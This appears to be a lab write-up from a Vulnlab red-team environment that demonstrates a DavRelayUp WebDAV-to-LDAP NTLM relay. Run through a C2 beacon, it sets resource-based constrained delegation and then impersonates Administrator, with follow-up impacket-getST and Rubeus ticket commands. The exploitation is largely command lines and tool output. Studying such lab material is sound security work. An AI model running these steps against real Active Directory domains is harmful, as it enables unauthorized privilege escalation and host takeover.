

# DavrelayUp 
before start tasks_max_size has to larger than 4996288
## Whats DavRelayUp doing?
```
it just starts the webdav server, makes a new computer account, coerce the host to LDAP and set the attribute ms-dsallowedtoactonbehalgofanotheridentity from the host relayed to the new machine, and then it tries to create a program ussing sspi uac bypass by creating a new service, but that is not the important, after you set the attribute it means you can perform RBCD and gain over the host
so just make a ticket for cifs and impersonate admin or whoever
```
## Usage
```
[02/19 20:17:09] beacon> execute-assembly /home/elliot/Documents/Vulnlab/RTL/shinra/DavRelayUp.exe -h
[02/19 20:17:16] [*] Tasked beacon to run .NET program: DavRelayUp.exe -h
[02/19 20:17:55] [+] host called home, sent: 4996288 bytes
[02/19 20:18:04] [+] received output:
DavRelayUp - Relaying you to SYSTEM, again...

Usage: DavRelayUp.exe [-c] [-cn COMPUTERNAME] [-cp PASSWORD | -ch NTHASH]

RBCD Options:
    -c   (--CreateNewComputerAccount) Create new computer account for RBCD. Will use the current authenticated user.
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=DAVRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (default=RANDOM [if -c is enabled])
    -ch  (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (either -cp or -ch must be specified)
    -i   (--Impersonate)              User to impersonate. Should be a local administrator in the target computer. (default=Administrator)

KrbSCM Options:
    -s   (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc  (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)

General Options:
    -p  (--Port)                     Port for WebDAV Server (default=55555)
    -d  (--Domain)                   FQDN of domain. (Optional)
    -dc (--DomainController)         FQDN of domain controller. (Optional)
    -ssl                             Use LDAP over SSL. (Optional)
    -n                               Use CreateNetOnly (needs to be on disk) instead of PTT when importing ST (Optional)
    -v  (--Verbose)                  Show verbose output. (Optional)
    -h  (--Help)                     Show help
```
as u can see


### Explotation
```
[02/19 20:18:37] beacon> execute-assembly /home/elliot/Documents/Vulnlab/RTL/shinra/DavRelayUp.exe -c
[02/19 20:18:44] [*] Tasked beacon to run .NET program: DavRelayUp.exe -c
[02/19 20:19:15] [+] host called home, sent: 4996288 bytes
[02/19 20:19:32] [+] received output:
DavRelayUp - Relaying you to SYSTEM, again...

[+] WebClient Service started successfully
[+] Computer account "DAVRELAYUP$" added with password "zH1$eB4-eW2$hT1/"
[+] Starting Relay Server on Port 55555

[02/19 20:20:03] [+] received output:
[+] Coercing System Authentication
[+] WebDAV Request: No Authorization header
[+] WebDAV Response: Sending 401 Unauthorized with "WWW-Authenticate: NTLM" header
[+] WebDAV Request: Got NTLMSSP_NEGOTIATE. Initiating connection to LDAP
[+] LDAP Bind: Got NTLMSSP_CHALLENGE from LDAP server. Relaying to WebDAV Client
[+] WebDAV Response: Sending 401 Unauthorized with NTLMSSP_CHALLENGE from LDAP
[+] WebDAV Request: Got NTLMSSP_AUTH. Relaying to LDAP
[+] LDAP Bind: Connected to LDAP as SHINRA-DEV\\CLIENT01$
[+] RBCD rights added successfully!
[+] Relay Attack Done
[+] TGT request successful!
[+] Building S4U2self
[+] Using domain controller: dc.shinra-dev.vl (172.16.11.101)
[+] Sending S4U2self request to 172.16.11.101:88
[+] S4U2self success!
[+] Got a TGS for 'Administrator' to 'DAVRELAYUP$@SHINRA-DEV.VL'
[+] Impersonating user 'Administrator' to target SPN 'HOST/CLIENT01'
[+] Building S4U2proxy request for service: 'HOST/CLIENT01'
[+] Using domain controller: dc.shinra-dev.vl (172.16.11.101)
[+] Sending S4U2proxy request to domain controller 172.16.11.101:88
[+] S4U2proxy success!
[+] Ticket successfully imported!

[08/30 00:06:45] [+] received output:
[+] Using Kerberos ticket to connect to Service Manger
[-] Error opening SCM: 5
```
After we create Machine account
### Linux Abuse
```
proxychains -q impacket-getST -spn 'HOST/CLIENT01.-' -impersonate 'Administrator' -hashes :64<machineshashesarerotate>0D shinra-dev.vl/DAVRELAYUP$ -dc-ip dc.shinra-dev.vl
```
### Windows Abuse
```
execute-assembly Rubeus.exe s4u  /user:DAVRELAYUP$ /rc4:64<machineshashesarerotate>0D /msdsspn:cifs/CLIENT01.shinra-dev.vl /impersonateuser:Administrator /ptt /nowrap
```
Enjoy ;)
